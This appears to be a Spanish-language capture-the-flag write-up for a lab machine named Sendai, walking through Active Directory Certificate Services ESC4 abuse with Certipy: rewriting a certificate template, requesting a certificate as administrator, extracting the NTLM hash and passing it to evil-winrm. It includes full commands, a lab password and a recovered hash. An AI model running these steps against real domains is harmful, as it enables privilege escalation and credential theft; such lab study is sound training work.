



Se identifica un escenario 4 sobre la plantilla ``SendaiComputer``, lo que permite alterar su configuración e introducir una configuración vulnerable equivalente a ESC1 (permitiendo la solicitud arbitraria de certificados para otros usuarios).

https://github.com/ly4k/Certipy/wiki/06-‐-Privilege-Escalation


De forma resumida, los pasos a seguir son los siguientes:

- Se modifica una plantilla que inicialmente es segura (y se convierte a escenario 1).

- Se solicita un certificado arbitrario (generalmente de un usuario de más privilegios como ``administrator``) utilizando la plantilla modificada sin necesidad de requerir aprobación.

- Se autentica utilizando el certificado obtenido y se consigue el hash NTLM del usuario objetivo.

``netexec ldap 10.129.234.66 -u 'clifford.davey' -p 'RFmoB2WplgE_3p' -M adcs``



Entidad certificadora -> sendai-DC-CA

Como se va a realizar una explotación vía certificados, es necesario sincronizar la hora con el DC:

``sudo ntpdate 10.129.234.66``


- PASO 1: Se sobrescribe la configuracion de la plantilla vulnerable con una configuración insegura predefinida y proporcionada por Certipy.

```
certipy-ad template -u 'clifford.davey' -p 'RFmoB2WplgE_3p' -dc-ip 10.129.234.66 -template SendaiComputer -write-default-configuration
```


- Paso 2: repetimos el comando de buscar template vulnerable. Deberían existir cambios:

``certipy-ad find -vulnerable -u 'clifford.davey' -p 'RFmoB2WplgE_3p' -dc-ip 10.129.234.66 -stdout``




-> Los cambios que puede haber:

- `Enrollee Supplies Subject`  ahora `True`. Esto permite que el solicitante especifique arbitrariamente el ``Subject Alternative Name`` (SAN) del certificado, pudiendo solicitar certificados válidos para otros usuarios del dominio.

- `Permissions` -> `Object Control Permissions` ahora muestra show `SENDAI.VL\Authenticated Users`, que tienen `Full Control`, lo que implica `Enrollment Rights`.

Tras aplicar estas modificaciones, la plantilla pasa a ser explotable mediante el escenario 1.


- Paso 3: Solicitud de certificado usando la template modificada para el usuario ``administrator``. 

Podemos conocer su SID a través de su nodo en bloodhound:



``S-1-5-21-3085872742-570972823-736764132-500``

``certipy-ad req -u 'clifford.davey' -p 'RFmoB2WplgE_3p' -dc-ip 10.129.234.66 -target 'dc.sendai.vl' -ca 'sendai-DC-CA' -template SendaiComputer -upn administrator@sendai.vl -sid 'S-1-5-21-3085872742-570972823-736764132-500'``




- Paso 4: Autenticarnos usando el certificado (pfx) obtenido y obtener el hash NTLM asociado a la cuenta del usuario objetivo (``administrator``) mediante autenticación PKINIT.

```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.234.66
```


Hash NTLM obtenido: ``cfb106feec8b89a3d98e14dcbe8d087a``

Una vez se ha obtenido el hash NTLM del usuario ``administrator``, se utiliza la técnica [[Pass The Hash]] para autenticarse vía WinRM:

``evil-winrm -i 10.129.234.66 -u 'administrator' -H 'cfb106feec8b89a3d98e14dcbe8d087a'``



Una vez dentro de la máquina víctima como el usuario ``administrator``, se puede recoger su flag en su escritorio:


